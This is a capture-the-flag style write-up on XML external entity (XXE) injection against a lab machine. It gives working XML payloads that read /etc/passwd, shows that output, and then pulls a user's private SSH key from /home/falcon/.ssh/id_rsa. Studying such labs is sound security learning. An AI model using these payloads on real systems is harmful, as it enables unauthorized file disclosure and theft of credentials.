 # 04. XML External Entity - Exploiting

[Part 1. Before we start]

What is XML external entity injection?

- XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. It often allows an attacker to view files on the server, and to interact with backend or external systems that the application itself can access.
- They can also cause Denial of Service (DoS) attack or could use XXE to perform Server-Side Request Forgery (SSRF) inducing the web application to make requests to other applications. XXE may even enable port scanning and lead to remote code execution.

There are two types of XXE attacks: in-band and out-of-band (OOB-XXE).

1. An in-band XXE attack is the one in which the attacker can receive an immediate response to the XXE payload.
2. out-of-band XXE attacks (also called blind XXE), there is no immediate response from the web application and attacker has to reflect the output of their XXE payload to some other file or their own server.

[Part 2. Exploit]

Target: http://10.10.106.3/

- Firstly, we just try a simple payload to display my name

```
// It defines an entity named name with the replacement text "hieu"
<!DOCTYPE replace [<!ENTITY name "hieu"> ]>
<userInfo>
<firstName>vu</firstName>
//entity reference replaced with the value defined in the external entity declaration, which is "hieu"
<lastName>&name;</lastName>
</userInfo>
```

- I don’t really learn about xml much but it’s like we define a variable with specific value
- Now i try to read the file /etc/passwd with the uri: file:///etc/passwd

```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY payload SYSTEM "file:///etc/passwd"> ]>
<userInfo>
<firstName>vu</firstName>
<lastName>&payload;</lastName>
</userInfo>
```

+) The output:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
.......
falcon:x:1000:1000:falcon,,,:/home/falcon:/bin/bash
```

- The name of  the user in /etc/passwd is falcon
- After researching, i know that default location for ssh key is `(/home/USER/.ssh/id_rsa)` .

[https://www.hostdime.com/kb/hd/linux-server/the-guide-to-generating-and-uploading-ssh-keys#:~:text=The default directory for SSH,the public key named id_rsa](https://www.hostdime.com/kb/hd/linux-server/the-guide-to-generating-and-uploading-ssh-keys#:~:text=The%20default%20directory%20for%20SSH,the%20public%20key%20named%20id_rsa).

- And we all knows that falcon is in the dir /home/falcon

```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY payload SYSTEM "file:///home/falcon/.ssh/id_rsa"> ]>
<userInfo>
<firstName>vu</firstName>
<lastName>&payload;</lastName>
</userInfo>
```

+) Or you can use the payload shorter like this  

```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///home/falcon/.ssh/id_rsa'>]>
<root>&read;</root>
```

⇒  falcon's SSH key located is located at **/home/falcon/.ssh/id_rsa** and the first 18 characters for falcon's private key is **MIIEogIBAAKCAQEA7b**
